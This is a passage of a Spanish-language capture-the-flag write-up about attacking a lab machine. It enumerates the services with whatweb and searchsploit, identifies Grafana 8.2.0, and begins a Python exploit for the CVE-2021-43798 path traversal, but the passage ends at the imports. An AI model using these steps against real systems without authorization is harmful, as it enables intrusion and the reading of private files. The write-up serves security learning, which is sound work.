 Omitimos el escaneo al puerto **22(SSH)** y **3306(MySQL)** ya que no tenemos ninguna credencial válida y la versión del servicio no es vulnerable. Por otro lado, tenemos los servicios web en los puertos **80(HTTP)** y **3000(PPP)**:

> Enumeración del puerto **80**

![SSH user leakage](ssh_user_leak.png){: shadow}

Debido a un **Leakage Information** conseguimos un posible usuario para conectarnos por SSH

> Enumeración del puerto **3000**

Del escaneo anterior con `nmap` no conseguimos información sobre las tecnologías del servicio, por ello usamos `whatweb` para enumerarlas:

```console
❯ whatweb 10.10.11.183:3000
http://10.10.11.183:3000 [302 Found] Cookies[redirect_to], Country[RESERVED][ZZ], HttpOnly[redirect_to], IP[10.10.11.183], RedirectLocation[/login], UncommonHeaders[x-content-type-options], X-Frame-Options[deny], X-XSS-Protection[1; mode=block]
http://10.10.11.183:3000/login [200 OK] Country[RESERVED][ZZ], Grafana[8.2.0], HTML5, IP[10.10.11.183], Script, Title[Grafana], UncommonHeaders[x-content-type-options], X-Frame-Options[deny], X-UA-Compatible[IE=edge], X-XSS-Protection[1; mode=block]
```

## Foothold

* * *

Observamos que existe una redirección a un panel de login, pero mas importante, vemos una tecnología llamada `Grafana[8.2.0]`. Así que de manera general usamos `searchsploit` (herramienta de la linea de comandos para buscar diferentes exploits de su base de datos _Exploit DB_):

```console
❯ searchsploit Grafana
---------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                        |  Path
---------------------------------------------------------------------- ---------------------------------
Grafana 7.0.1 - Denial of Service (PoC)                               | linux/dos/48638.sh
Grafana 8.3.0 - Directory Traversal and Arbitrary File Read           | multiple/webapps/50581.py
---------------------------------------------------------------------- ---------------------------------
```

Encontramos que una version posterior es vulnerable a un **Path Traversal**, para asegurarnos buscamos en internet vulnerabilidades con la respectiva versión:

> [CVE-2021-43798](https://nvd.nist.gov/vuln/detail/CVE-2021-43798)

![CVE detail](CVE-2021-43798_detail.png){: .shadow}

Como validamos que es vulnerable, basandonos en el script original tenemos el siguiente exploit:

```python
"""
CVE-2021-43798
--------------
Description: Vulnerable path traversal in Grafana for version v8.0.0-beta1 to v8.3.0
"""

import argparse
import signal
import sys

from random import choice
from requests import Session, Request

```